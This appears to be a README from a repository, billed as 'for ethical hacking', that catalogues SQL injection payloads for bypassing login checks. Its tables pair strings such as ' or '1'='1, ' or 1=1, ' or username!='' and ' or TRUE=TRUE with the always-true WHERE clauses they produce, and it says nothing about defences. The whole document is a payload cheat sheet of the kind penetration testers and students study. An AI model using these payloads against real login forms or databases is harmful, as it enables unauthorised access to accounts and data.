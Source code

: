 # SQL INJECTION 
### PAYLOAD AND EXAMPLE QUERY

![https://img.shields.io/badge/ETHICAL%20HACKING-TRUE-red](https://img.shields.io/badge/ETHICAL%20HACKING-TRUE-red)

> ! Attention, This Repository For Ethical Hacking 

### 1. Bypass SQL Always True 

Example of QUERY SQL starting from WHERE, please develop and analyze it yourself.

> Based on 1=1 is Always True 

| NO|PAYLOAD  | EXAMPLE QUERY |
|--|--|--|
|1| ```' or '1'='1``` |```WHERE username = '' or '1'='1' AND password = '' or '1'='1';```|
|2| ```' or 1=1``` |```WHERE username = '' or 1=1 AND password = '' or 1=1;```|
| | |```WHERE name  = '' or 1=1;```|
|3 | ```or 1=1``` |```WHERE id = 1 or 1=1;```|


> Based on Field Name not null is Always True

Use the Field name for payload

|NO|PAYLOAD  | EXAMPLE QUERY |
|--|--|--|
|1| ```' or username!=''``` |```WHERE username = '' or username!='' AND password = '' or password!='';```|
| | |```WHERE country_id = '' or country_id != '';```|;
> Based on FALSE Not TRUE is Always True

|NO|PAYLOAD  | EXAMPLE QUERY |
|--|--|--|
|1| ```' or FALSE!=TRUE``` |```WHERE username = '' or FALSE!=TRUE AND password = '' or FALSE!=TRUE;```|

> Based on TRUE=TRUE is Always True

|NO|PAYLOAD  | EXAMPLE QUERY |
|--|--|--|
|1| ```' or TRUE=TRUE``` |```WHERE username = '' or TRUE=TRUE AND password = '' or TRUE=TRUE;```|

